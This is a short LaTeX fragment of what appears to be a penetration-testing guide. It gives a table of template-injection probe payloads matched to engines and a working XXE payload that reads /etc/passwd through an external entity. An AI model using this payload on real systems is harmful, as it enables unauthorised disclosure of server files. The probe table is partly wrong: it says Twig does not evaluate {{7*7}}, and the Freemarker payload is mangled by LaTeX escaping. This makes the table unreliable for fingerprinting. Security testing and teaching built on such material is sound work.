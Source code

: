 \documentclass{article}
\begin{document}
\section{Phase 3: Template Engine Identification}

If mathematical expressions work, you might be dealing with a template engine rather than traditional XXE.

\subsection{3.1 Template Engine Test Matrix}

\begin{longtable}{|l|l|l|}
\hline
\textbf{Payload} & \textbf{Expected Result} & \textbf{Engine} \\
\hline
\{\{7*7\}\} & 49 & Jinja2 (Python) \\
\hline
$\{7*7\}$ & 49 & Freemarker (Java) \\
\hline
<\%= 7*7 \%> & 49 & EJS (Node.js) \\
\hline
\#\{7*7\} & 49 & Pug (Node.js) \\
\hline
\{\{7*7\}\} & \{\{7*7\}\} (no eval) & Twig (PHP) \\
\hline
\{\$smarty.version\} & Version number & Smarty (PHP) \\
\hline
\end{longtable}

\section{Phase 4: Classic XXE Exploitation}

\subsection{4.1 File Read (In-band)}

\begin{exploitbox}
\begin{lstlisting}[language=XML]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
\end{lstlisting}
\end{exploitbox}

\subsection{4.2 Common Files to Read}
\end{document}
